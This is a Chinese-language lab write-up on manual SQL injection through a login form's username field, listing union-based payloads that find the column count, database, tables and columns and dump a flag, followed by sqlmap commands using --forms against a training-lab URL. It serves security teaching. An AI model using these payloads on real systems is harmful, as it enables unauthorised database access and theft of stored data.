 
#### 手工注入 

**1.判断注入点**

'or 1=1 and -1=-1#     ==》登录成功 

'or 1=1 and -1=-2#     ==》登录失败 

==》在Username登录框存在注入点

**2.判断当前页面字段总数**

'or 1=1 order by 3#    ==》登录成功

'or 1=1 order by 4#    ==》登录失败

==》当前页面字段总数: 3

**3.判断显示位**

'or 1=2 union select 1,2,3#    

 ==》注入点是 **2，3**。

**4.查当前数据库 **

'or 1=2 union select 1,2,database()#

==》数据库名为 post_error

**5.查表名**

'or 1=2 union select 1,2,GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()#

==》两个表：**flag和user**。

**6.查列名 **

FLAG应该在flag表里；

**'or 1=2 union select 1,2,GROUP_CONCAT(column_name) from information_schema.columns where table_schema=database() and table_name='flag'#**

==》列名：**Id和flag**

**7.查字段内容 **

FLAG应该在flag表里的flag字段里；

**'or 1=2 union select 1,2,GROUP_CONCAT(flag) from flag#**

 **Salmap——POST注入：**

> 

**--forms**读取页面中POST传参的表单的传参名然后进行SQL注入
**-r **读取数据包文件进行SQL注入，在注入处末尾可以打一个*号告诉Sqlmap测试哪个点


 **--forms**

> 
sqlmap.py -u http://inject2.lab.aqlab.cn:81/Pass-05/index.php --forms

